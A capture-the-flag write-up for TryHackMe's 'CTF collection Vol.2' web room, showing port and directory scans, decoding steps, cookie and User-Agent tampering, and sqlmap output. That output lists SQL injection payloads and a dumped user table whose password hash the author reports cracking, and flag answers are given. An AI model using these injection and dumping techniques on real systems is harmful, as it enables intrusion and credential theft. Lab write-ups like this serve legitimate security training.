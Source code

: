 <p align="left">November 6, 2024 - Hey there, fellow lifelong learner!<br>
I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure. It´s part of my $$\textcolor{#FF69B4}{\textbf{184}}$$-day-streak in  <a href="https://tryhackme.com/r/p/Rosana">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{&nbsp; CTF collection Vol.2}}$$
</h1>

<p align="center">Sharpening up your CTF skill with the collection. The second volume is about web-based CTF.<br>
                  Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/ctfcollectionvol2">CTF collection VOl.2</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/6628e1a4-ea67-4e69-b719-702b2fc07e4c">
  <img height="150px" src="https://github.com/user-attachments/assets/88772c45-e475-4d0a-a8cb-c1c1440725d7">
</p>

<h2>Task 1 - Author note</h2>

<p>Welcome, welcome and welcome to another CTF collection. This is the second installment of the CTF collection series. For your information, the second serious focuses on the web-based challenge. There are a total of 20 easter eggs a.k.a flags can be found within the box. Let see how good is your CTF skill.<br>

Now, deploy the machine and collect the eggs!</p>

<p>Warning: The challenge contains seizure images and background. If you feeling uncomfortable, try removing the background on <style> tag.</p>

Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise</p>

> 1.1 - <em>Fact: Eggs contain the highest quality protein you can buy.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>



<h2>Task 2 - Easter egg</h2>

<p>Submit all your easter egg right here. Gonna find it all!</p>

> 2.1 - <em>Easter 1</em><br>
> <code>Question Hint</code>: Check the robots.
>> <strong>THM{4u70b07_r0ll_0u7}</strong>
<p></p>

<pre><code>$ rustscan -a 10.10.157.196 -- -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
\U0001f30dHACK THE PLANET\U0001f30d

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.157.196:22
Open 10.10.157.196:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-11-06 21:27 UTC
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 21:27
Scanning 10.10.157.196 [2 ports]
Completed Ping Scan at 21:27, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:27
Completed Parallel DNS resolution of 1 host. at 21:27, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:27
Scanning ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196) [2 ports]
Discovered open port 80/tcp on 10.10.157.196
Discovered open port 22/tcp on 10.10.157.196
Completed Connect Scan at 21:27, 0.00s elapsed (2 total ports)
Initiating Service scan at 21:27
Scanning 2 services on ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Completed Service scan at 21:28, 6.09s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.157.196.
SE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.03s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.04s elapsed
Nmap scan report for ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Host is up, received syn-ack (0.00050s latency).
Scanned at 2024-11-06 21:27:53 UTC for 7s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.01 seconds
</code></pre>

![image](https://github.com/user-attachments/assets/7cf7a060-19c7-4740-9d08-d7c85c32c93f)

<pre><code>root@ip-[Attack_IP]:~# gobuster dir -u http://10.10.157.196 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.157.196
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 301) [Size: 314] [--> http://10.10.157.196/login/]
/index                (Status: 200) [Size: 94328]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 314] [--> http://10.10.157.196/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 314] [--> http://10.10.157.196/ready/]
/saw                  (Status: 200) [Size: 156274]
/game2                (Status: 301) [Size: 314] [--> http://10.10.157.196/game2/]
/wel                  (Status: 200) [Size: 155758]
/free_sub             (Status: 301) [Size: 317] [--> http://10.10.157.196/free_sub/]
/nicole               (Status: 200) [Size: 367650]
/server-status        (Status: 403) [Size: 294]
Progress: 135446 / 220561 (61.41%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 136330 / 220561 (61.81%)
===============================================================
Finished
===============================================================
root@ip-[Attack_IP]:~# 
</code></pre>

![image](https://github.com/user-attachments/assets/80d5876a-803a-4afe-be31-e0c21c0004ad)

![image](https://github.com/user-attachments/assets/710449d5-e0fa-4547-873a-d689be15fc48)

<pre><code>root@ip-[Attack_IP]:~# echo "45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d" | xxd -r -p
Easter 1: THM{4u70b07_r0ll_0u7}
root@ip-[Attack_IP]:~# 
</code></pre>

<br>

> 2.2 - <em>Easter 2</em><br>
> <code>Question Hint</code>: Decode the base64 multiple times. Don't forget there are something being encoded.
>> <strong>THM{f4ll3n_b453}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/6d2d90e5-e448-4968-9201-27d4026d44b7)

<pre><code>root@ip-[Attack_IP]:~# sudo apt-get install gridsite-clients
</code></pre>

<pre><code>root@ip-[Attack_IP]:~# urlencode -d $(echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d) | base64 -d | sed "s/\ //g" | base64 -d | sed "s/\ //g" | base64 -d
DesKel_secret_base
</code></pre>

![image](https://github.com/user-attachments/assets/34444a26-e7bc-418f-9ec4-2bf011f9ab03)

![image](https://github.com/user-attachments/assets/febcb3a7-3bbc-4e89-ad25-ad043f9daa53)     

<br>

> 2.3 - <em>Easter 3</em><br>
> <code>Question Hint</code>: Directory buster with common.txt might help.
>> <strong>THM{y0u_c4n'7_533_m3}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/0059e8dc-d592-4055-b802-8b35c146d8dc)

![image](https://github.com/user-attachments/assets/4c0cf585-4d13-4ecd-bee6-197160b3b139)

<br>

> 2.4 - <em>Easter 4</em><br>
> <code>Question Hint</code>: time-based sqli
>> <strong>THM{1nj3c7_l1k3_4_b055}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/56d0d814-c921-4443-8361-a38febbae083)

![image](https://github.com/user-attachments/assets/5b40e8da-e1a9-4c97-965c-e1b5905d80ed)

![image](https://github.com/user-attachments/assets/190353b2-b02f-4305-8e98-95c06212613e)

<pre><code>root@ip-[Attack_IP]:~# sqlmap -r request.txt --dbs --level 3 --risk 3
...
...
22:12:17] [INFO] testing 'MySQL >= 5.0.12 time-based blind - ORDER BY, GROUP BY clause'
[22:12:17] [INFO] testing 'MySQL <= 5.0.11 time-based blind - ORDER BY, GROUP BY clause (heavy query)'
[22:12:17] [INFO] testing 'Generic UNION query (93) - 1 to 10 columns'
[22:12:18] [INFO] testing 'MySQL UNION query (93) - 1 to 10 columns'
[22:12:20] [WARNING] User-Agent parameter 'User-Agent' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 21062 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:12:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:12:20] [INFO] fetching database names
[22:12:20] [INFO] fetching number of databases
[22:12:20] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:12:20] [INFO] retrieved: 4
[22:12:20] [INFO] retrieved: information_schema
[22:12:21] [INFO] retrieved: THM_f0und_m3
[22:12:21] [INFO] retrieved: mysql
[22:12:21] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:12:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:12:22
</code></pre>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -D THM_f0und_m3 --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:14:05

[22:14:05] [INFO] parsing HTTP request from 'request'
[22:14:05] [INFO] resuming back-end DBMS 'mysql' 
[22:14:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:14:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:14:05] [INFO] fetching database names
[22:14:05] [INFO] fetching number of databases
[22:14:05] [INFO] resumed: 4
[22:14:05] [INFO] resumed: information_schema
[22:14:05] [INFO] resumed: THM_f0und_m3
[22:14:05] [INFO] resumed: mysql
[22:14:05] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:14:05] [INFO] fetching tables for database: 'THM_f0und_m3'
[22:14:05] [INFO] fetching number of tables for database 'THM_f0und_m3'
[22:14:05] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:14:05] [INFO] retrieved: 2
[22:14:05] [INFO] retrieved: nothing_inside
[22:14:06] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[22:14:06] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_ID]'

[*] shutting down at 22:14:06

root@ip-[Attack_IP]:~# 
</code></pre>

<br>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --columns
       ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:17:23

[22:17:23] [INFO] parsing HTTP request from 'request'
[22:17:23] [INFO] resuming back-end DBMS 'mysql' 
[22:17:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:17:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:17:23] [INFO] fetching database names
[22:17:23] [INFO] fetching number of databases
[22:17:23] [INFO] resumed: 4
[22:17:23] [INFO] resumed: information_schema
[22:17:23] [INFO] resumed: THM_f0und_m3
[22:17:23] [INFO] resumed: mysql
[22:17:23] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:17:23] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
[22:17:23] [INFO] fetching current database
[22:17:23] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:17:23] [INFO] retrieved: THM_f0und_m3
[22:17:23] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[22:17:23] [INFO] retrieved: 1
[22:17:23] [INFO] retrieved: Easter_4
[22:17:24] [INFO] retrieved: varchar(30)
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

[22:17:24] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:17:24

root@ip-10-10-146-248:~# 
</code></pre>


<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --dump-all
       ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:19:29

[22:19:29] [INFO] parsing HTTP request from 'request'
[22:19:29] [INFO] resuming back-end DBMS 'mysql' 
[22:19:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:19:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:19:29] [INFO] fetching database names
[22:19:29] [INFO] fetching number of databases
[22:19:29] [INFO] resumed: 4
[22:19:29] [INFO] resumed: information_schema
  ...
  ...
[22:20:00] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] retrieved: 1
[22:20:00] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

[22:20:01] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.sqlmap/output/10.10.157.196/dump/THM_f0und_m3/nothing_inside.csv'
[22:20:01] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: username
[22:20:01] [INFO] retrieved: password
[22:20:01] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: 05f3672ba34409136aa71b8d00070d1b
[22:20:03] [INFO] retrieved: DesKel
[22:20:03] [INFO] retrieved: He is a nice guy, say hello for me
...  
</code></pre>

<br>

> 2.5 - <em>Easter 5</em><br>
> <code>Question Hint</code>: Another sqli
>> <strong>THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}</strong>
<p></p>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --dump-all
...
[22:20:00] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] retrieved: 1
[22:20:00] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+
...
[22:45:04] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.sqlmap/output/10.10.157.196/dump/THM_f0und_m3/nothing_inside.csv'
[22:45:04] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] resumed: 2
[22:45:04] [INFO] resumed: username
[22:45:04] [INFO] resumed: password
[22:45:04] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] resumed: 2
[22:45:04] [INFO] resumed: 05f3672ba34409136aa71b8d00070d1b
[22:45:04] [INFO] resumed: DesKel
[22:45:04] [INFO] resumed: He is a nice guy, say hello for me
[22:45:04] [INFO] resumed: Skidy
[22:45:04] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[22:45:09] [INFO] writing hashes to a temporary file '/tmp/sqlmapt34iIC14886/sqlmaphashes-XYsiDb.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q]                                                          
Database: THM_f0und_m3                                                                                                                   
Table: user
[2 entries] 
</code></pre>

![image](https://github.com/user-attachments/assets/dc41a558-f11a-4fef-98ca-e27711b03a3b)

<p>User: DesKel<br>
Password: cutie</p>

![image](https://github.com/user-attachments/assets/26d6e431-b377-4c90-b693-214c54fd0954)

![image](https://github.com/user-attachments/assets/6974dd72-3c96-470f-a51d-8ea3cc9cc7a6)

<br>

> 2.6 - <em>Easter 6</em><br>
> <code>Question Hint</code>: Look out for the response header.
>> <strong>THM{l37'5_p4r7y_h4rd}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/f6813926-8e54-4a6a-afd2-efcde1232507)

![image](https://github.com/user-attachments/assets/d97e119a-f9ed-4350-b6ad-6c346e267f6b)

<br>

> 2.7 - <em>Easter 7</em><br>
> <code>Question Hint</code>: Cookie is delicious
>> <strong>THM{w3lc0m3!_4nd_w3lc0m3}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/72ca764f-08cf-43ee-aecf-b8dd7f3bf03e)

<p>I sent it to Repeater changing <code>Cookie</code> parameter to <code>Invited=1</code> and it worked!</p>

![image](https://github.com/user-attachments/assets/826071a8-7644-4c28-80e5-c2d37f71f72a)

<br>

> 2.8 - <em>Easter 8</em><br>
> <code>Question Hint</code>: Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1
>> <strong>THM{h3y_r1ch3r_wh3r3_15_my_k1dn3y}</strong>
<p></p>

<p>Using Burp, I intercepted a GET request to the main page, observing the <code>User-Agent</code>. </p>

![image](https://github.com/user-attachments/assets/40b9152c-f909-4b50-833f-ef0981da3793)

<br>

![image](https://github.com/user-attachments/assets/92fae6fc-b6d9-4073-ae4b-87fe0bc19019)

<br>

![image](https://github.com/user-attachments/assets/c27a5235-b83c-411e-8a4b-60e09ff75256)

<br>

> 2.9 - <em>Easter 9</em><br>
> <code>Question Hint</code>: Something is redirected too fast. You need to capture it.
>> <strong>______</strong>
<p></p>

<p>Review the Gobuster we run before ...</p>

<pre><code>root@ip-[Attack_IP]:~# gobuster dir -u http://[Target_IP] -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://[Target_IP]
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 301) [Size: 314] [--> http://[Target_IP]/login/]
/index                (Status: 200) [Size: 94328]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 314] [--> http://[Target_IP]/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 314] [--> http://[Target_IP]/ready/]
/saw                  (Status: 200) [Size: 156274]
/game2                (Status: 301) [Size: 314] [--> http://[Target_IP]/game2/]
/wel                  (Status: 200) [Size: 155758]
/free_sub             (Status: 301) [Size: 317] [--> http://[Target_IP]/free_sub/]
/nicole               (Status: 200) [Size: 367650]
/server-status        (Status: 403) [Size: 294]
Progress: 135446 / 220561 (61.41%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 136330 / 220561 (61.81%)
===============================================================
Finished
===============================================================
root@ip-[Attack_IP]:~# 
</code></pre>

<p>When I tried <code>/ready</code> the web page is redirected.</p>

![image](https://github.com/user-attachments/assets/03090afd-533d-4228-b289-cb6a3345da34)

<p>After using the <code>Forward</code> feature, I found the flag.</p>

![image](https://github.com/user-attachments/assets/92f58b4e-3a1f-41c4-aa08-57d093d99327)

<p></p>

> .2.10 - <em>Easter 10</em><br>
>> <strong>______</strong><br>
<p><br></p>






